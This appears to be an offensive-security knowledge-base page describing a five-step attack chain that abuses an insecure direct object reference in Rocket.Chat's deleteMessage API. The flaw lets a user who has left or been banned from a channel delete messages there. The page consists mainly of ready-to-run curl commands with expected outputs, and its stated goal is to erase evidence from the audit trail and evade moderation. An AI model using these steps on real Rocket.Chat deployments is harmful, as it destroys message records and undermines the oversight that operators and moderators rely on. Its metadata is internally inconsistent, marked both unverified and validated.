

---
tags:
  - idor
  - rocket.chat
  - message-deletion
  - authorization-bypass
  - defense-evasion
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Defense Evasion]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Capture-Message-ID-via-SendMessage-API-in-Rocket.Chat]]'
  - '[[procedures/Leave-Rocket.Chat-Channel]]'
  - '[[procedures/Capture-DeleteMessage-Request-Structure-in-Rocket.Chat]]'
  - '[[procedures/Exploit-IDOR-to-Modify-and-Send-Delete-Request-in-Rocket.Chat]]'
  - '[[procedures/Verify-Message-Deletion-in-Rocket.Chat]]'
step_count: 5
techniques:
  - '[[Disable or Modify Tools]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:25:47.423Z'
description: >-
  Multi-stage attack exploiting an Insecure Direct Object Reference (IDOR) in
  Rocket.Chat's deleteMessage API, allowing unauthorized deletion of messages
  from channels after the user has left or been banned, thereby evading
  moderation and tampering with audit trails.
skill_level: intermediate
impact_level: high
id: 74406bb6-eba4-4d34-b764-854e22b09862
validated: true
mitre_tactics:
  - '[[Defense Evasion]]'
mitre_techniques:
  - '[[Disable or Modify Tools]]'
  - '[[Exploit Public-Facing Application]]'
---
# IDOR in Rocket.Chat DeleteMessage API to Erase Messages After Leaving Channel

Multi-stage attack chain demonstrating a complete attack workflow exploiting IDOR in Rocket.Chat to delete messages post-channel exit.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- Web browser with developer tools or API client like curl

### Target Environment

- Rocket.Chat web application (version vulnerable to IDOR in deleteMessage API)
- Required services/ports: HTTPS on standard web port (443)
- Network access requirements: Authenticated user session in Rocket.Chat

### Initial Access Requirements

- Valid user credentials for Rocket.Chat
- Network position: Direct access to the Rocket.Chat instance
- Prior access needed: Ability to join and send messages in target channel

## Detailed Attack Procedures

### Step 1: Send Message and Capture ID
procedure: [[procedures/Capture-Message-ID-via-SendMessage-API-in-Rocket.Chat]]

**Objective**: Send a message to the target channel and extract its unique ID for later targeting.

**Instructions**: Authenticate to Rocket.Chat and use the sendMessage API to post a message, intercepting the response to obtain the message ID (e.g., CZZqd6rMsiqbsqa9h).

Execute [[commands/curl-sendmessage-rocket-chat]] to send the message:

```bash
curl -X POST -H "X-Auth-Token: YOUR_AUTH_TOKEN" -H "X-User-Id: YOUR_USER_ID" -H "Content-Type: application/json" https://rocket-chat.example.com/api/v1/method.call -d '{"msg":"method","method":"sendMessage","params":[{"rid":"TARGET_ROOM_ID","msg":"Test message for ID capture"}],"id":"unique_id_1"}'
```

Then parse the response JSON for the "result" field containing the message ID.

**Expected Output**: JSON response with message ID in the result.

**Success Indicators**:
- Message appears in the channel UI
- Message ID (e.g., CZZqd6rMsiqbsqa9h) extracted from API response

### Step 2: Leave the Channel
procedure: [[procedures/Leave-Rocket.Chat-Channel]]

**Objective**: Exit the target channel to simulate departure or ban, removing direct UI access to delete options.

**Instructions**: Use the Rocket.Chat UI or API to leave the channel without rejoining.

In the web UI, navigate to the channel settings and select "Leave Channel". Alternatively, use [[commands/curl-leavechannel-rocket-chat]]:

```bash
curl -X POST -H "X-Auth-Token: YOUR_AUTH_TOKEN" -H "X-User-Id: YOUR_USER_ID" -H "Content-Type: application/json" https://rocket-chat.example.com/api/v1/method.call -d '{"msg":"method","method":"leaveRoom","params":[{"rid":"TARGET_ROOM_ID"}],"id":"unique_id_2"}'
```

**Expected Output**: Confirmation of leaving; channel no longer accessible in UI.

**Success Indicators**:
- UI shows channel as left or banned
- No delete button visible for the target message

### Step 3: Capture Delete Request Template
procedure: [[procedures/Capture-DeleteMessage-Request-Structure-in-Rocket.Chat]]

**Objective**: In a different channel where the user still has access, perform a delete operation to intercept and capture the structure of a valid deleteMessage API request.

**Instructions**: Join or use another channel, send a test message, delete it via UI, and intercept the request using Burp Suite or browser dev tools.

First, send a test message using [[commands/curl-sendmessage-rocket-chat]] (adapt for different room ID), then delete it and capture the request to /api/v1/method.call/deleteMessage.

The captured request will look like: POST with params including "id": "test_message_id".

**Expected Output**: Intercepted HTTP request showing the deleteMessage method call structure.

**Success Indicators**:
- Valid delete request captured with JSON payload
- Test message successfully deleted in the alternate channel

### Step 4: Exploit IDOR to Delete Target Message
procedure: [[procedures/Exploit-IDOR-to-Modify-and-Send-Delete-Request-in-Rocket.Chat]]

**Objective**: Modify the captured delete request by replacing the message ID with the target ID from Step 1, then forward it to exploit the IDOR and delete the message without channel membership.

**Instructions**: Using the intercepted request from Step 3, change the 'id' parameter to the target message ID (e.g., CZZqd6rMsiqbsqa9h) and resend.

Execute the modified [[commands/curl-deletemessage-rocket-chat]]:

```bash
curl -X POST -H "X-Auth-Token: YOUR_AUTH_TOKEN" -H "X-User-Id: YOUR_USER_ID" -H "Content-Type: application/json" https://rocket-chat.example.com/api/v1/method.call -d '{"msg":"method","method":"deleteMessage","params":[{"_id":"CZZqd6rMsiqbsqa9h"}],"id":"unique_id_3"}'
```

**Expected Output**: JSON response indicating successful deletion (e.g., {"success": true}).

**Success Indicators**:
- API returns success without authorization error
- Target message no longer visible in channel (viewable by admin or other member)

### Step 5: Verify Message Deletion
procedure: [[procedures/Verify-Message-Deletion-in-Rocket.Chat]]

**Objective**: Confirm that the target message has been erased from the channel despite the user's lack of membership.

**Instructions**: Have an admin or remaining channel member check the channel history, or use API to fetch messages if possible.

In the UI, refresh the target channel (via another account) and confirm the message is gone. Alternatively, query messages with [[commands/curl-getmessages-rocket-chat]]:

```bash
curl -X GET -H "X-Auth-Token: ADMIN_AUTH_TOKEN" -H "X-User-Id: ADMIN_USER_ID" https://rocket-chat.example.com/api/v1/channels.messages?roomId=TARGET_ROOM_ID&count=50
```

**Expected Output**: Message ID absent from the list of channel messages.

**Success Indicators**:
- Target message erased from audit trail
- No evidence of violation remains in channel history

## Attack Chain Summary

### Key Achievements

1. Captured target message ID pre-departure
2. Bypassed channel membership checks via IDOR in deleteMessage API
3. Successfully deleted message, undermining moderation and hiding violations

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Disable or Modify Tools]] Disable or Modify Tools (impairing audit logs by deleting messages)
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application (exploiting API endpoint)

### MITRE ATT&CK Tactics

- [[Defense Evasion]] Defense Evasion

---

*Last updated: 2023-10-01T00:00:00Z*
